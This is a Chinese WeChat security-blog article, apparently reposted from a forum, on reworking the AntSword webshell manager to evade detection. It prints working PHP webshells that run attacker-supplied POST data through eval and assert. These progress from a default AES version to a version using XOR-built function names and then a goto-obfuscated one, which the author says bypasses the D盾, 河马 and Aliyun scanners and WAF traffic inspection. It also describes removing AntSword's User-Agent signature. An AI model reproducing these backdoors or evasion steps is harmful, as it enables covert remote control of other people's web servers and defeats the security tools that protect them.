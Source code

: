 #  php_webshell免杀--从0改造你的AntSword

Q16G  [ 黄公子学安全 ](javascript:void\(0\);)

**黄公子学安全** ![]()

微信号 huang_Block

功能介绍 主要和大家分享安全笔记、如何从一个小白逆袭成为技术大牛的经验以及在学习安全过程中容易出现的错误。为各位网络安全爱好者提供优质学习平台。

____

___发表于_

收录于合集 #实战 20个

AntSword 0x00
前言：为什么会有改造蚁剑的想法，之前看到有做冰蝎的流量加密，来看到绕过waf，改造一些弱特征，通过流量转换，跳过密钥交互。但是，冰蝎需要反编译去改造源码，再进行修复bug...

# AntSword

## 0x00 前言：

为什么会有改造蚁剑的想法，之前看到有做冰蝎的流量加密，来看到绕过waf，改造一些弱特征，通过流量转换，跳过密钥交互。  
但是，冰蝎需要反编译去改造源码，再进行修复bug，也比较复杂。而AntSword相对于冰蝎来说，不限制webshell，即一句话也可以进行连接，还可以自定义编码器和解码器，可以很容易让流量做到混淆。

## 0x01 蚁剑介绍及其改编：

关于蚁剑的介绍，这里就不多说了，一个连接webshell的管理器，使用前端nodejs进行编码。AntSword给我最大的好处是可以连接一句话木马，而且可以自定义编码器和解码器。这让我们就有了很多种webshell的变换。

![]()  
但是，蚁剑默认的编码器和菜刀都是一样的，这里用burpsuite来进行抓包看下流量。

#### 蚁剑默认流量

![]()  
返回来的是默认蚁剑的默认流量，所以的话，这里就基本上过不去态势感知和waf，所以很容易想到了编码器和解码器的选择，可以进行流量的改造来进行waf的绕过，先选用最默认的base64进行测试。

#### 默认的base64编码器

![]()  
但是看到了使用base64编码之后是有eval字样的，这样的话，肯定被态势感知和全流量一体机来进行特征的抓取，肯定会报威胁。

#### 去github上找到蚁剑的编码器和对应的解码器

github地址:（编码器）  
这里下载默认的aes-128的默认流量。

![]()  
默认编码器的webshell

    
    
    <?php  
    @session_start();  
    $pwd='ant';  
    $key=@substr(str_pad(session_id(),16,'a'),0,16);  
    @eval(openssl_decrypt(base64_decode($_POST[$pwd]), 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING));  
    ?>  
    

##### 默认webshell讲解：

    
    
    这里打开session_start，然后截取Cookie中的PHPSESSION的16位。  
    然后进行aes加密，密码为pwd  
    

再D盾，河马和阿里云进行扫描：

![]()  
河马没有查出来，可能是比较弱  
![]()  
阿里云直接报恶意

![]()

#### 初步修改后的webshell：

    
    
    <?php  
    @session_start();  
    error_reporting(E_ALL^E_NOTICE^E_WARNING);  
    function decode($key,$data){  
    $data_new = '';  
    for($i=0;$i<=strlen($data);$i++){  
    $b=$data[$i]^$key;  
    $data_new = $data_new.urldecode($b);  
    }  
    define('ass',$data_new[0].strrev($data_new)[2].strrev($data_new)[2].$data_new[11].strrev($data_new)[4].strrev($data_new)[0]);  
    define('ev',$data_new[11].strrev($data_new)[8].$data_new[0].strrev($data_new)[6].'($result)');  
    return $data_new;  
    }  
    function decrypto($key,$data){  
    $data = base64_decode($data);  
    $result = openssl_decrypt($data, 'AES-128-ECB', $key, OPENSSL_RAW_DATA|OPENSSL_ZERO_PADDING);  
    decode('\\','=:=om>n?o8h9i:j;k*d0e.l/m(');  
    $ass=ass;  
    $ass(ev);  
    }  
    class run{  
        public $data;  
        public function __construct(){  
    $this->data = '#````````#'.$_POST[1]."#`#`#";  
    $this->data = $this->data."123456";  
    }  
    }  
    $key=@substr(str_pad(session_id(),16,'a'),0,16);  
    $run = new run();  
    decrypto($key,$run->data);  
    ?>  
    

这里能过去D盾，但是无法绕过阿里云查杀。

![]()  
所以这里还需要进行代码混淆。（这也是之后webshell免杀常常用到的）

#### 混淆之后的webshell：

这里提供php在线加密的站

    
    
    https://enphp.djunny.com/  
    

这里加密之后生成webshell。如下：

    
    
     goto Zc4oD; UJih6: function decrypto($key, $data) { goto LBrqg; P6YrI: $ass = ass; goto aR6yN; svn0O: $result = openssl_decrypt($data, "\x41\x45\x53\x2d\x31\x32\70\55\105\x43\x42", $key, OPENSSL_RAW_DATA | OPENSSL_ZERO_PADDING); goto ATbMy; LBrqg: $data = base64_decode($data); goto svn0O; ATbMy: decode("\x5c", "\75\72\x3d\157\x6d\x3e\x6e\x3f\x6f\x38\x68\71\151\x3a\x6a\x3b\x6b\x2a\x64\x30\x65\56\x6c\57\155\50"); goto P6YrI; aR6yN: $ass(ev); goto k6RVH; k6RVH: } goto DGZMG; WvjFi: ini_set("\144\151\x73\160\x6c\x61\x79\x5f\145\162\x72\x6f\162\x73", "\117\146\x66"); goto Wguwk; DGZMG: class run { public $data; public function __construct() { $this->data = "\43\140\x60\140\140\x60\140\x60\x60\43" . $_POST[1] . "\x23\140\x23\140\43"; } } goto Berxy; UUYvT: $run = new run(); goto apKNY; Berxy: $key = @substr(str_pad(session_id(), 16, "\141"), 0, 16); goto UUYvT; Zc4oD: @session_start(); goto WvjFi; Wguwk: function decode($key, $data) { goto LGJR3; Ef77S: $i = 0; goto KvZGg; rSTXM: define("\141\x73\x73", $data_new[0] . strrev($data_new)[2] . strrev($data_new)[2] . $data_new[11] . strrev($data_new)[4] . strrev($data_new)[0]); goto TQ6r4; Tbglr: return $data_new; goto FsE2S; tm2qt: goto I39OV; goto eF7jG; AqTZZ: $data_new = $data_new . urldecode($b); goto FriN_; TQ6r4: define("\x65\166", $data_new[11] . strrev($data_new)[8] . $data_new[0] . strrev($data_new)[6] . "\50\x24\x72\145\163\165\154\x74\51"); goto Tbglr; FriN_: bLexq: goto gITff; eF7jG: RuTl1: goto rSTXM; gITff: $i++; goto tm2qt; KdSCg: if (!($i <= strlen($data))) { goto RuTl1; } goto d9N4J; d9N4J: $b = $data[$i] ^ $key; goto AqTZZ; LGJR3: $data_new = ''; goto Ef77S; KvZGg: I39OV: goto KdSCg; FsE2S: } goto UJih6; apKNY: decrypto($key, $run->data);  
    

经过加密之后，可以发现，进行了goto的混淆，所以这里就达到了代码混淆。因为之前绕过了D盾和河马，这里直接去阿里云查杀。

![]()  
已经成功绕过阿里云查杀。用burpsuite抓下流量特征。

![]()  
从流量加密来分析的话，已经能绕过态势感知和全流量分析机。

### 蚁剑UA头的修改：

#### 在burp的数据包中能清楚的看到蚁剑的特征

![]()

#### 在目录/modules/request.js文件中修改UA头

![]()

#### /modules/update.js文件修改

![]()

# 0x03 总结：

关于免杀来说，通常是进行代码加密混淆，特征码替换或者分割传输等情况。之前有想写过shellcode免杀，但是还没有过windows
defender，所以就推迟一段时间来写。感谢各位拜读。

来源：https://forum.butian.net/share/1996  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

